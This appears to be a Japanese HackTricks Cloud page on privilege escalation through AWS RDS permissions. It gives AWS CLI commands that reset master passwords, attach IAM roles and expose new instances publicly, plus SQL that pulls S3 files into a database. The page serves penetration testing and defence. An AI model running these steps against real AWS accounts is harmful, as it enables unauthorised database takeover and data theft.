 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - リレーショナルデータベースサービス

RDSに関する詳細情報は以下を確認してください：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

その権限を持つ攻撃者は**マスターユーザーのパスワードを変更**し、データベース内のログインを行うことができます：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**接続する**ことができる必要があります（通常、内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響:** データベース内の機密情報を見つけることができます。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールIAM権限の悪用

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** を実行して **`rdsadmin`** というデータベースが見つかると、**AWS postgresqlデータベース**内にいることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスにアクセスするために使用されているかどうかを確認できます。インストールされている拡張機能を見て確認できます:
```sql
SELECT * FROM pg_extension;
```
もし**`aws_s3`**のようなものを見つけた場合、このデータベースは**S3に対する何らかのアクセス権を持っている**と考えることができます（**`aws_ml`**や**`aws_lambda`**などの他の拡張子もあります）。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、**`AssociatedRoles`**フィールドで**クラスターに関連付けられたIAMロールがあるかどうか**を確認できます。もしあれば、そのデータベースは**他のAWSサービスにアクセスするために準備されている**と考えることができます。**ロールの名前**（またはロールの**権限**を取得できる場合）に基づいて、データベースが持っている追加のアクセス権を**推測**することができます。

さて、**バケット内のファイルを読むためには**、フルパスを知っている必要があります。次のようにして読むことができます：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**生のAWS認証情報**を持っていれば、次のコマンドを使用してS3データにアクセスすることもできます:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **は S3 にアクセスするためにパラメータグループの変数を変更する必要がありません**。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 内で **`SELECT User, Host FROM mysql.user;`** クエリを実行し、**`rdsadmin`** というユーザーが存在する場合、あなたは **AWS RDS mysql db** 内にいると考えることができます。
{% endhint %}

mysql 内で **`show variables;`** を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** などの変数に値がある場合、データベースは S3 データにアクセスする準備ができていると考えることができます。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、クラスターに **関連するロール** があるかどうかを確認できます。これは通常、AWS サービスへのアクセスを意味します。

さて、**バケット内のファイルを読むためには**、フルパスを知っている必要があります。次のようにして読むことができます:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` と `iam:PassRole` の権限を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加する**ことができます。これにより、攻撃者は**機密データにアクセスしたり**、インスタンス内のデータを変更したりすることができる可能性があります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。\
一部のDBは、Mysqlのように、パラメータグループでロールARNを指定する必要があるなど、追加の設定が必要であることに注意してください。

### `rds:CreateDBInstance`

この権限だけで、攻撃者は**既存のクラスター内に新しいインスタンス**を作成でき、**IAMロール**が添付されている場合があります。マスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開できる可能性があります。
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールを添付した新しい RDS インスタンスを作成**できます。攻撃者はその後、**機密データにアクセス**したり、インスタンス内のデータを変更したりする可能性があります。

{% hint style="warning" %}
添付するロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）：

* プロファイルはあなたのアカウントに存在しなければなりません。
* プロファイルには、Amazon EC2 が引き受ける権限を持つ IAM ロールが必要です。
* インスタンスプロファイル名と関連する IAM ロール名は、プレフィックス `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`および`iam:PassRole`の権限を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加**することができます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりすることが可能になります。

{% hint style="warning" %}
DBインスタンスはクラスターの外にある必要があります
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

